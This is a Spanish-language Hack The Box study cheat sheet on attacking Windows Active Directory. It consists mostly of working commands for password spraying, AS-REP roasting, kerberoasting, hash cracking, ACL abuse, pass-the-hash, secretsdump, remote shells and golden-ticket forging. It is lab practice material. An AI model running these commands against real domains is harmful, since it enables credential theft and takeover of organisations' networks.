

# HTB Windows AD Attacks and Privilege Escalation

> [!abstract] TL;DR
> En AD, escalar no siempre significa explotar un CVE. Muchas veces es abusar **Kerberos**, **ACLs**, **delegación**, **credenciales reutilizadas**, **shares**, **sesiones activas** o **permisos mal asignados**.

## Flujo rápido



## Preparación

```bash
export IP=10.10.10.10
export DOMAIN=example.htb
export USER='user'
export PASS='pass'
export DC=dc01.example.htb
```

```bash
echo "$IP $DC $DOMAIN" | sudo tee -a /etc/hosts
```

## Validar acceso

```bash
crackmapexec smb $IP -u "$USER" -p "$PASS"
crackmapexec winrm $IP -u "$USER" -p "$PASS"
crackmapexec ldap $IP -u "$USER" -p "$PASS"
```

Si WinRM da `Pwn3d!`:

```bash
evil-winrm -i $IP -u "$USER" -p "$PASS"
```

## 1. Password spraying

```bash
crackmapexec smb $IP -u users.txt -p 'Password123!' --continue-on-success
kerbrute passwordspray -d $DOMAIN --dc $IP users.txt 'Password123!'
```

> [!warning]
> En entornos reales, spraying puede bloquear cuentas. En HTB suele ser parte del lab, pero igual conviene controlar intentos.

## 2. AS-REP roasting

Requiere usuarios con `Do not require Kerberos preauthentication`.

Sin credenciales:

```bash
impacket-GetNPUsers $DOMAIN/ -usersfile users.txt -dc-ip $IP -no-pass -format hashcat -outputfile loot/asrep.hashes
```

Con credenciales:

```bash
impacket-GetNPUsers $DOMAIN/$USER:$PASS -dc-ip $IP -request -format hashcat -outputfile loot/asrep.hashes
```

Crack:

```bash
hashcat -m 18200 loot/asrep.hashes /usr/share/wordlists/rockyou.txt
```

## 3. Kerberoasting

Requiere credenciales válidas de dominio.

```bash
impacket-GetUserSPNs $DOMAIN/$USER:$PASS -dc-ip $IP -request -outputfile loot/kerberoast.hashes
```

Crack:

```bash
hashcat -m 13100 loot/kerberoast.hashes /usr/share/wordlists/rockyou.txt
```

> [!tip]
> Cuentas de servicio con SPN + password humana = hallazgo clásico. Después probá la contraseña por SMB, WinRM, MSSQL y LDAP.

## 4. BloodHound: ACLs abusables

Recolectar:

```bash
bloodhound-python -u "$USER" -p "$PASS" -d "$DOMAIN" -ns $IP -c All --zip
```

Permisos importantes:

- `GenericAll`: control total sobre el objeto.
- `GenericWrite`: modificar atributos útiles.
- `WriteDacl`: cambiar ACL y darte permisos.
- `WriteOwner`: tomar ownership y luego cambiar DACL.
- `ForceChangePassword`: resetear password del usuario.
- `AddMember`: agregarte a un grupo.

### ForceChangePassword

```bash
net rpc password TARGET_USER 'NewPassw0rd!' -U "$DOMAIN/$USER%$PASS" -S $IP
```

### AddMember a grupo

```bash
net rpc group addmem "GROUP_NAME" "$USER" -U "$DOMAIN/$USER%$PASS" -S $IP
```

### GenericAll sobre usuario

Cambiar password:

```bash
net rpc password TARGET_USER 'NewPassw0rd!' -U "$DOMAIN/$USER%$PASS" -S $IP
```

Luego validar:

```bash
crackmapexec smb $IP -u TARGET_USER -p 'NewPassw0rd!'
```

## 5. Pass-the-Hash

Si conseguís NTLM:

```bash
crackmapexec smb $IP -u user -H NTLM_HASH
evil-winrm -i $IP -u user -H NTLM_HASH
impacket-psexec $DOMAIN/user@$IP -hashes :NTLM_HASH
```

## 6. Secretsdump

Con credenciales admin local/dominio:

```bash
impacket-secretsdump $DOMAIN/$USER:$PASS@$IP
impacket-secretsdump $DOMAIN/user@$IP -hashes :NTLM_HASH
```

Objetivos:

- hashes locales;
- `krbtgt`;
- cuentas de servicio;
- credenciales en LSA secrets;
- cached domain logons.

## 7. Delegación Kerberos

Buscar en BloodHound:

- unconstrained delegation;
- constrained delegation;
- resource-based constrained delegation (RBCD).

Enumeración rápida:

```bash
impacket-findDelegation $DOMAIN/$USER:$PASS -dc-ip $IP
```

RBCD suele aparecer si podés escribir sobre un computer object (`GenericWrite`, `GenericAll`, `WriteDacl`).

## 8. Shares con escritura

```bash
crackmapexec smb $IP -u "$USER" -p "$PASS" --shares
smbmap -H $IP -u "$USER" -p "$PASS"
```

Si hay escritura:

- buscar scripts ejecutados por admins;
- revisar `SYSVOL` y `NETLOGON`;
- subir payload solo si hay una ruta de ejecución real;
- buscar config files con credenciales.

## 9. Lateral movement

Validar dónde sirven las credenciales:

```bash
crackmapexec smb targets.txt -u "$USER" -p "$PASS"
crackmapexec winrm targets.txt -u "$USER" -p "$PASS"
```

Shells comunes:

```bash
evil-winrm -i TARGET -u "$USER" -p "$PASS"
impacket-psexec $DOMAIN/$USER:$PASS@TARGET
impacket-wmiexec $DOMAIN/$USER:$PASS@TARGET
impacket-smbexec $DOMAIN/$USER:$PASS@TARGET
```

## 10. ADCS quick check

Si hay Certificate Services:

```bash
certipy find -u "$USER@$DOMAIN" -p "$PASS" -dc-ip $IP -vulnerable -stdout
```

Ataques comunes:

- ESC1: template permite enrolar certificado usable para autenticación.
- ESC8: NTLM relay hacia AD CS web enrollment.

> [!note]
> ADCS no aparece en todos los labs, pero cuando aparece suele ser la ruta principal a dominio.

## 11. Golden/Silver ticket

Solo cuando ya tenés material sensible:

- Golden Ticket: requiere hash de `krbtgt`.
- Silver Ticket: requiere hash de cuenta de servicio.

```bash
impacket-ticketer -nthash KRBTGT_HASH -domain-sid DOMAIN_SID -domain $DOMAIN Administrator
export KRB5CCNAME=Administrator.ccache
```

> [!danger]
> En HTB sirve para practicar. En un entorno real, tickets forjados son altamente detectables si se monitorea Kerberos correctamente.

## Checklist

```text
1. Tengo usuarios válidos?
2. Hay AS-REP roast?
3. Hay SPNs kerberoasteables?
4. Algún hash crackeó?
5. Las credenciales sirven por SMB/WinRM/MSSQL?
6. BloodHound muestra ACLs abusables?
7. Puedo resetear password, agregarme a un grupo o escribir DACL?
8. Hay delegación vulnerable?
9. Hay shares con escritura o scripts en SYSVOL/NETLOGON?
10. Tengo admin local en algún host para secretsdump?
11. Existe ADCS vulnerable?
```

## Referencias

- [[HTB/Windows AD/cheatsheet|Windows AD Enumeration]]
- [[kerberos-basico]]
- [[ldap-y-active-directory]]
- BloodHound
- Impacket
- Certipy
- HackTricks Active Directory
- The Hacker Recipes
